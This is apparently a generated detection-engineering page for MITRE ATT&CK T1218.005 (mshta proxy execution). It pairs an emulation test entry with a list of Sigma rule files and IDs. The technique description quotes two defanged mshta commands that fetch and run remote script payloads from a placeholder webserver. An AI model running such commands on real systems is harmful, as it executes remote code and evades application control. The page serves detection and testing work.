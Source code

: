 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Binary Proxy Execution: Mshta 

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1218.005


# Test : Invoke HTML Application - Simulate Lateral Movement over UNC Path
## OS
  - windows


## Description:
Executes an HTA Application with Simulate lateral movement over UNC Path.

## Executor
powershell

# Sigma Rule
 - proc_creation_win_powershell_susp_parent_process.yml (id: 754ed792-634f-40ae-b3bc-e0448d33f695)

 - posh_ps_accessing_win_api.yml (id: 03d83090-8cba-44a0-b02f-0b756a050306)

 - posh_ps_malicious_keywords.yml (id: f62176f3-8128-4faa-bf6c-83261322e5eb)

 - file_event_win_csharp_compile_artefact.yml (id: e4a74e34-ecde-4aab-b2fb-9112dd01aed0)

 - proc_creation_win_csc_susp_folder.yml (id: dcaa3f04-70c3-427a-80b4-b870d73c94c4)

 - posh_ps_susp_windowstyle.yml (id: 313fbb0a-a341-4682-848d-6d6f8c4fab7c)

 - posh_ps_susp_networkcredential.yml (id: 1883444f-084b-419b-ac62-e0d0c5b3693f)

 - posh_ps_susp_gwmi.yml (id: 0332a266-b584-47b4-933d-a00b103e1b37)

 - posh_ps_copy_item_system_directory.yml (id: 63bf8794-9917-45bc-88dd-e1b5abc0ecfd)

 - posh_ps_susp_keywords.yml (id: 1f49f2ab-26bc-48b3-96cc-dcffbc93eadf)

 - posh_ps_file_and_directory_discovery.yml (id: d23f2ba5-9da0-4463-8908-8ee47f614bb9)

 - proc_creation_win_apt_lazarus_activity_apr21.yml (id: 4a12fa47-c735-4032-a214-6fab5b120670)

 - proc_creation_win_susp_script_exec_from_temp.yml (id: a6a39bdb-935c-4f0a-ab77-35f4bbf44d33)

 - proc_creation_win_apt_ta505_dropper.yml (id: 18cf6cf0-39b0-4c22-9593-e244bdc9a2d4)

 - proc_creation_win_mshta_susp_pattern.yml (id: e32f92d1-523e-49c3-9374-bdb13b46a3ba)

 - proc_creation_win_mshta_susp_execution.yml (id: cc7abbd0-762b-41e3-8a26-57ad50d2eea3)

 - proc_creation_win_shell_spawn_susp_program.yml (id: 3a6586ad-127a-4d3b-a677-1e6eacdf8fde)

 - proc_creation_win_wmiprvse_spawning_process.yml (id: d21374ff-f574-44a7-9998-4a8c8bf33d7d)

 - proc_creation_win_mshta_susp_child_processes.yml (id: 03cc0c25-389f-4bf8-b48d-11878079f1ca)



[back](../index.md)
